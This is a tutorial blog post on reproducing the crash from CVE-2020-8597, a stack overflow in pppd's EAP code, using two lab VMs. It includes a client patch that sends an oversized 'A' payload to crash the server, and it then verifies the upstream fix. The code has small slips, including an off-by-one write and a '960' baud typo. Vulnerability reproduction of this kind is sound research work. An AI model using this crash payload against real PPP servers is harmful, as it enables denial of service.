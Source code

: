 # CVE-2020-8597 - Buffer Overflow in pppd

Published: March 7, 2020

In this short tutorial we will go over how to reproduce the crash from CVE-2020-8597.  This is a stack-based buffer overflow in the `pppd` binary.

We will use our own `pppd` binary compiled from source, using the latest version: `2.4.8`.

To accomplish this goal, we will need two Virtual Machines connected by a virtual serial port.  I typically use VirtualBox since it is open source, but the same sort of configuration should work on other hypervisors.

I spun up two VMs: 

* `pppd-server`
* `pppd-client`

The serial configuration settings for `pppd-server` look like this:

![Server Serial Configuration](https://gist.github.com/nstarke/551433bcc72ff95588e168a0bb666124/raw/8610f404b61c547d85560ccbfba73804af596cb2/0001-server-serial-config.png "Server Serial Configuration")

The serial configuration settings for `pppd-client` look like this:

![Client Serial Configuration](https://gist.github.com/nstarke/551433bcc72ff95588e168a0bb666124/raw/8610f404b61c547d85560ccbfba73804af596cb2/0002-client-serial-config.png "Client Serial Configuration")

After configuring the serial settings, spin up and install your choice of Linux Distribution.  I chose `Ubuntu 19.10`, but any linux distro should work.

Make sure the `pppd-server` VM is started **before** the `pppd-client` VM.

Now we need to test the connectivity of the serial connection:

![Testing Serial Connection](https://gist.github.com/nstarke/551433bcc72ff95588e168a0bb666124/raw/8610f404b61c547d85560ccbfba73804af596cb2/0003-testing-serial-connection.png "Testing Serial Connection")

When installation of the base operating system is completed and testing is successful, we will need a few packages to work with pppd:

```bash
# apt install build-essential gdb libssl-dev
```

Then we proceed to clone the `ppp` repository:

```bash
$ git clone https://github.com/paulusmack/ppp.git ~/ppp
```

Now on the server, we build and install `ppp`:

```bash
$ git checkout ppp-2.4.8
$ cd ~/ppp
$ ./configure
$ make
# make install
```

We now have `pppd` installed for the server.  Next repeat the instructions on `pppd-client`.

At this point we hae a version of `pppd` on both systems.  We need to then test the connection.

First, on the server, run the following command:

```bash
# pppd /dev/ttyS0 9600 noauth local lock defaultroute debug nodetach 172.16.1.1:172.16.1.2 ms-dns 8.8.8.8
```

Next, on the client, run the following command:

```bash
# pppd noauth local lock defaultroute debug nodetach /dev/ttyS0 9600
```

Now we should see the connection open up:

![Initial Connection](https://gist.github.com/nstarke/551433bcc72ff95588e168a0bb666124/raw/8610f404b61c547d85560ccbfba73804af596cb2/0005-initial-connection.png "Initial Connection")

Next we need to implement `EAP MD5-Challenge`.  We can do so by adjusting the server command and adding a file on the server filesystem.

The file we need to add is `/etc/ppp/chap-secrets` and should look like this:

```
admin   *       password        *
```

Where:

* `admin` is the username
* The first * is the server name
* `password` is the connection password
* The second * is the IP to accept connections from

Now we adjust the server command to:

```bash
# pppd /dev/ttyS0 9600 auth local lock defaultroute debug nodetach 172.16.1.1:172.16.1.2 ms-dns 8.8.8.8 require-eap
```

The last thing we need to do is make some changes to the `pppd-client` pppd binary.  On `pppd-client`, clean up the ppp project in `~/ppp`:

```bash
$ make clean
```

Then apply the following patch:

```
diff --git a/pppd/eap.c b/pppd/eap.c
index 082e953..0754597 100644
--- a/pppd/eap.c
+++ b/pppd/eap.c
@@ -75,8 +75,7 @@
 #ifndef SHA_DIGESTSIZE
 #define        SHA_DIGESTSIZE 20
 #endif
-
-
+#define PAYLOAD_SIZE 1024
 eap_state eap_states[NUM_PPP];         /* EAP state; one for each unit */
 #ifdef USE_SRP
 static char *pn_secret = NULL;         /* Pseudonym generating secret */
@@ -1392,8 +1391,8 @@ int len;
 #endif /* USE_SRP */
                eap_send_response(esp, id, typenum, esp->es_client.ea_name,
                    esp->es_client.ea_namelen);
-               break;
 
+               break;
        case EAPT_NOTIFICATION:
                if (len > 0)
                        info("EAP: Notification \"%.*q\"", len, inp);
@@ -1457,8 +1456,12 @@ int len;
                BZERO(secret, sizeof (secret));
                MD5_Update(&mdContext, inp, vallen);
                MD5_Final(hash, &mdContext);
-               eap_chap_response(esp, id, hash, esp->es_client.ea_name,
-                   esp->es_client.ea_namelen);
+               char payload[PAYLOAD_SIZE];
+               memset(payload, 'A', PAYLOAD_SIZE - 1);
+               payload[PAYLOAD_SIZE] = '\0';
+               eap_chap_response(esp, id, hash, payload, PAYLOAD_SIZE);
+               //eap_chap_response(esp, id, hash, esp->es_client.ea_name,
+                //   esp->es_client.ea_namelen);
                break;
 
 #ifdef USE_SRP
```

You can apply this patch by saving it as a file like this:

```bash
$ git apply client-payload.patch
```

Where `client-payload.patch` is the file name where we saved the aforementioned patch.

I chose to use the approach of modifying he `pppd` binary to avoid having to script out the entire `LCP` handshake process that begins link negotation on `ppp`.  While it should be possible to craft your own client using `scapy` and `pyserial`, it was definitely easier to just modify the existing `pppd` binary to do what we want.

Now recompile the project:

```bash
$ ./configure
$ make
# make install
```

Now we adjust the client command to be:

```bash
# pppd auth local lock defaultroute debug nodetach /dev/ttyS0 960
```

Then we run the server command first, and the following client command:

```bash
# pppd noauth local lock defaultroute debug nodetach /dev/ttyS0 9600 user notadmin password notpassword
```

You should see a crash now on the server:

![Crash](https://gist.github.com/nstarke/551433bcc72ff95588e168a0bb666124/raw/8610f404b61c547d85560ccbfba73804af596cb2/0006-crash.png "Crash")

Now, we want to verify the fix, so back on the server we run:

```bash
$ make clean
$ git checkout master
$ ./configure
$ make
# make install
```

Then repeat the last server+client commands!  You should not see a crash:

![No Crash](https://gist.github.com/nstarke/551433bcc72ff95588e168a0bb666124/raw/8610f404b61c547d85560ccbfba73804af596cb2/0007-no-crash.png "No crash")

Sources:

* [https://github.com/paulusmack/ppp/commit/8d7970b8f3db727fe798b65f3377fe6787575426](https://github.com/paulusmack/ppp/commit/8d7970b8f3db727fe798b65f3377fe6787575426)
* [https://www.virtualbox.org/wiki/PPP_Tunnel](https://www.virtualbox.org/wiki/PPP_Tunnel)

[Back](https://nstarke.github.io/)
